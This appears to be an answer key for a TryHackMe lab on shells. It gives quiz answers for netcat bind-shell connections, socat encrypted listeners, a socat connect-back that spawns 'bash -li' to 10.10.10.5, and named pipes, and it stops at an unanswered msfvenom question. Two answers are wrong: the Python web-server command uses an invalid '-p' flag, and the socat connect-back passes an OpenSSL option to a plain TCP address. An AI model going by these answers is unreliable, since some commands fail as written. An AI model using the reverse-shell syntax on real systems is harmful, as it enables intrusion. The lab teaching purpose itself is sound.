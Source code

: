 # What the Shell?

- Read and understand the introduction.

	  no answer needed

- Read the above and check out the links!

	  no answer needed

- Which type of shell connects back to a listening port on your computer, Reverse (R) or Bind (B)?

	- `R`

- You have injected malicious shell code into a website. Is the shell you receive likely to be interactive? (Y or N)

	- `N`

- When using a bind shell, would you execute a listener on the Attacker (A) or the Target (T)?

	- `T`

- Which option tells netcat to listen?

	- `-l`

- How would you connect to a bind shell on the IP address: 10.10.10.11 with port 8080?

	- `nc 10.10.10.11 8080`

- How would you change your terminal size to have 238 columns?

	- `stty cols 238`

- What is the syntax for setting up a Python3 webserver on port 80?

	- `sudo python3 -m http.server -p 80`

- How would we get socat to listen on TCP port 8080?

	- `TCP-L:8080`

- What is the syntax for setting up an OPENSSL-LISTENER using the tty technique from the previous task? Use port 53, and a PEM file called "encrypt.pem"

	- `socat OPENSSL-LISTENER:53,cert=encrypt.pem,verify=0 FILE:'tty',raw,echo=0`

- If your IP is 10.10.10.5, what syntax would you use to connect back to this listener?

	- `socat TCP:10.10.10.5:53,verify=0 EXEC:"bash -li",pty,stderr,sigint,setsid,sane`

- What command can be used to create a named pipe in Linux?

	- `mkfifo`

- Look through the linked Payloads all the Things Reverse Shell Cheatsheet and familiarise yourself with the languages available.

	  no answer needed

- Generate a staged reverse shell for a 64 bit Windows target, in a .exe format using your TryHackMe tun0 IP address and a chosen port.

	  no answer needed

- Which symbol is used to show that a shell is stageless?

	- `_`

- What command would you use to generate a staged meterpreter reverse shell for a 64bit Linux target, assuming your own IP was 10.10.10.5, and you were listening on port 443? The format for the shell is elf and the output filename should be shell